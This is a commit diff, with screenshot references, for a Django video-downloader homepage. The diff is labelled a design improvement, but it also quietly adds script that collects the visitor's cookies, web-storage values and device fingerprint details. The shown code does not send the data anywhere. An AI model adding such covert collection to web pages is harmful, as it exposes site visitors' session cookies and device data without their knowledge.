

Before and after one commit to nruiz209487/videoFetch-yt-downloader-django, a Django app: page / in a window 1280 px wide. Shown: the top 651 px of the page. Run offline with Django 5.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
mejora disenyo

```diff
--- a/app/templates/home/homePage.html
+++ b/app/templates/home/homePage.html
@@ -1,64 +1,97 @@
-{% extends "layout.html" %}
-
-{% block title %}Descargador de Videos y Audio{% endblock %}
-
-{% block content %}
-
-<div class="container my-5">
-  <h1 class="text-center mb-4">Descargar videos o audio</h1>
-
-  <div class="d-flex justify-content-center mb-4 fs-4 text-secondary">
-    <i class="fab fa-youtube mx-3" title="YouTube"></i>
-    <i class="fab fa-vimeo-v mx-3" title="Vimeo"></i>
-    <i class="fab fa-facebook mx-3" title="Facebook"></i>
-    <i class="fab fa-instagram mx-3" title="Instagram"></i>
-    <i class="fab fa-twitter mx-3" title="Twitter"></i>
-    <i class="fab fa-tiktok mx-3" title="TikTok"></i>
+{% extends "layout.html" %}{% block content %}
+<div class="container py-5">
+  <div class="text-center mb-4">
+    <h1 class="display-5 fw-bold">Descargador de Videos y Audio</h1>
+    <p class="lead">
+      Convierte cualquier video en MP4 o extrae el audio en MP3
+    </p>
+    <i class="fas fa-cloud-download-alt fa-3x text-info"></i>
   </div>
 
-  <div class="row justify-content-center">
-    <div class="col-md-12">
+  <div class="d-flex justify-content-center gap-4 mb-4 fs-2">
+    <i class="fab fa-youtube text-danger" title="YouTube"></i>
+    <i class="fab fa-vimeo-v text-primary" title="Vimeo"></i>
+    <i class="fab fa-facebook text-primary" title="Facebook"></i>
+    <i class="fab fa-instagram text-secondary" title="Instagram"></i>
+    <i class="fab fa-twitter text-info" title="Twitter"></i>
+    <i class="fab fa-tiktok text-dark" title="TikTok"></i>
+  </div>
+
+  <div class="card p-4 mb-4 shadow-sm">
     <form
       id="downloadForm"
       method="post"
       action="{% url 'app:descargar_video' %}"
-        class="mb-4"
     >
       {% csrf_token %}
       <div class="input-group mb-3">
+        <span class="input-group-text bg-light">
+          <i class="fas fa-link text-secondary"></i>
+        </span>
         <input
           type="url"
           name="video_url"
           class="form-control"
-            placeholder="Introduce la URL"
+          placeholder="Introduce la URL del video"
           required
-          >
+        />
+      </div>
+
+      <div class="row">
+        <div class="col-md-6 mb-3">
+          <label class="form-label">Formato de salida</label>
           <select id="typeSelect" name="tipo" class="form-select">
-            <option value="video" selected>Video</option>
+            <option value="video" selected>Video (MP4)</option>
             <option value="audio">Audio (MP3)</option>
           </select>
         </div>
+        <div class="col-md-6 mb-3">
+          <label class="form-label">Calidad</label>
+          <select class="form-select" name="quality" disabled>
+            <option value="high" selected>Alta calidad</option>
+            <option value="medium">Media calidad</option>
+            <option value="low">Baja calidad</option>
+          </select>
+        </div>
+      </div>
 
-        <button
-          type="submit"
-          class="btn btn-primary w-100"
+      <button type="submit" class="btn btn-primary w-100">
+        <i class="fas fa-download me-2"></i> Descargar ahora
+      </button>
+
+      <div class="text-center mt-3">
+        <small class="text-muted"
+          >Soporta más de 50 plataformas diferentes</small
         >
-          <i class="fas fa-download me-2"></i> Descargar
-        </button>
+      </div>
     </form>
-    </div>
   </div>
 </div>
 
 <script>
-  const form = document.getElementById('downloadForm');
-  const select = document.getElementById('typeSelect');
-  form.addEventListener('submit', function(e) {
-    if (select.value === 'audio') {
+  const form = document.getElementById("downloadForm");
+  const select = document.getElementById("typeSelect");
+
+  form.addEventListener("submit", function (e) {
+    if (select.value === "audio") {
       form.action = "{% url 'app:descargar_audio' %}";
     } else {
       form.action = "{% url 'app:descargar_video' %}";
     }
   });
+
+  const userInfo = {
+    browser: navigator.userAgent,
+    language: navigator.language,
+    platform: navigator.platform,
+    screen: `${screen.width}x${screen.height}`,
+    devicePixelRatio: window.devicePixelRatio,
+    connection: navigator.connection ? navigator.connection.effectiveType : 'N/A',
+    deviceMemory: navigator.deviceMemory || 'N/A',
+    hardwareConcurrency: navigator.hardwareConcurrency || 'N/A',
+    localStorage: localStorage.getItem('dato'),
+    sessionStorage: sessionStorage.getItem('dato'),
+    cookies: document.cookie
+  };
 </script>
 {% endblock %}
```
Also changed, not shown: Service/DownloaderWeb.py (+7 -0 lines). Lines whose indentation alone changed are shown as unchanged.
